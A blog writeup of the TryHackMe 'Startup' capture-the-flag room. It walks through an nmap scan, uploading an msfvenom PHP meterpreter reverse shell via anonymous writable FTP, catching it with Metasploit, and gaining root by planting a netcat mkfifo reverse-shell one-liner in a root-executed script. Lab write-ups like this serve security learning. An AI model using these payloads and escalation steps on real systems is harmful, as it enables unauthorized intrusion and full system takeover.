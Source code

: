 ```yaml
---
layout: default
title : Startup - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 09, 2020**_

[Startup](https://tryhackme.com/room/startup) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV 10.10.252.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP :

```                                                        
bvr0n@kali:~$ ncftp 10.10.252.135
Connecting to 10.10.252.135...                                                                                                         
ncftp / > ls
ftp/         notice.txt
ncftp / > ls -la
drwxrwxrwx    2 65534    65534        4096 Nov 09 17:24 ftp
```

I noticed that we can write in `/ftp`, so let's upload a reverse shell there, and execute it in the web browser :

Create a payload :

```
bvr0n@kali:~$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f raw > startup.php
```

Upload it into `/ftp/`:

```
ncftp /ftp > put startup.php
startup.php:                                            37.42 kB  124.55 kB/s  
Could not preserve times for startup.aspx: UTIME failed.
ncftp /ftp >
```
Set a Metasploit handler and exploit (execute script in browser) :

```
msf5 exploit(multi/handler) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Meterpreter session 2 opened (10.8.14.157:4444 -> 10.10.223.78:34244) at 2020-11-09 12:29:21 -0500
```

## Internal Enum :

So i stumbbles across a `Traffic Capture` file, after analysing it, i noticed a password for `Lennie`:
```
[sudo] password for www-data: 
@       ******************
6%      @
Sorry, try again.
```
for the root part, there is a script inside `/lennie` that going to allow us to pivot :

```
root@startup:~# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So basically what this script does,`root` is running what ever on `/etc/print.sh`, lucky for us is it writeable by us :D :

```
root@startup:~# ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 91 Nov  9 18:48 /etc/print.sh
```
So i filled it with a basic reverse shell :

```
root@startup:~# cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
Now we are set to go, set up a `nc` listener and execute `planner.sh`, and you should get a shell ;)

```
root@startup:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
startup
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
